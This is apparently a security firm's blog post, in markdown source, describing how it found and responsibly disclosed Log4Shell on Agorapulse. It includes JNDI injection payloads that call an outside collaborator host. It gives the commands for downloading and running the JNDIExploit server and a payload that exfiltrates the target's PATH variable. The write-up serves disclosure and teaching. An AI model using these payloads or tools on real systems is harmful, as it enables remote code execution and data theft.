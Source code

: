 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, in the past Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information.

All Log4j versions from 2.0-beta9 through 2.12. 1, and 2.13. 0 through 2.14
Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, [as identified by Chen Zhaojun of the Alibaba Cloud Security Team](https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw). NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this [CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the [analytics published](https://www.hackerone.com/vulnerability-management/log4shell-attack-evolution) by HackerOne which says, “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell". Almost the same number of reports were submitted on bugcrowd as well with over 300 reports submitted in a single day.



## What is agorapulse:

Agorapulse basically provides everything an organization could possibly need for social media marketing, monitoring, and management. Agora Pulse offers a comprehensive and compact platform for businesses to execute their marketing strategies while remaining under budget. The software is used to create and schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of the winter of 2021 when the news of log4j vulnerability broke out in the cyber security community. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking, our company decided to focus wholly on scanning and exploiting this vulnerability on our target infrstructure which include our cleints and few bug-bounty targets.

One of those available targets was agorapulse. We plunged into research mode and brainstormed out how we were going to scan for this vulnerability. Due to the fact that the vulnerability could be present on any endpoint or any request, it was really hard to focus on one part of an application. So we decided to inject payloads all over the web application and wait for any pingbacks. To do that, we identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application, and as said above to keep things organized, we used functionality-specific identifiers in the payloads.

For example

If we were using a payload in the profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in the message box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to identify the vulnerable request to trigger the vulnerability.


On the other hand, we also played it safe, using a payload that was not at all harmful to the client i.e it did not result in any denial of service attack or executing any malicious commands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the DNS pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}`.

So now the identification process began, and after a while, we received two pingbacks. One of the received was a false positive. But next up, we had a DNS pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So, the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}` and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to the burp collaborator client, you will see a Pingback.

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections, successful exploitation could lead to RCE. We refrained from taking any such action that could lead to any kind of disruption in services. So, we decided to extracting the global $PATH variable to prove the real impact of the vulnerability, and we needed to set up a JNDI server for that. So we quickly set up an Amazon EC2 with an hosted an JNDI server using the following approach/commands.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands, we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and made another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

Just to keep the exploitation ethical, We stopped right after extracting the $PATH environment variable of the agopulse server. Hence, no sensitive, confidential, or any other information related to their users was extracted.


## Response of Agora Team

After submitting the report to the agora team, we got their first response within a day. They were responsive and concerned with the security of their online assets. They fixed the bug on the same day and rewarded our finding.

After their fix was implemented, the team requested a re-check on the vulnerability, and we tried various payloads and bypasses to confirm if the fix was working well. But we were unable to bypass the fix, and it was working fine, so we confirmed the fix.

  
  
> ⚠️ Agorapulse was one of the 14 companies Snapsec helped to detect and fix Log4shell on the day it was publicly disclosed. 

## About us

Snapsec is a Cyber security service company for rapidly growing SaaS businesses, we help you with an enhanced level of security to defend your critical networks and data at affordable charges for our services.

Please feel free to contact us at support@snapsec.com if you're seeking a company that appreciates your security and guarantees that you are completely protected from online security risks. 
 
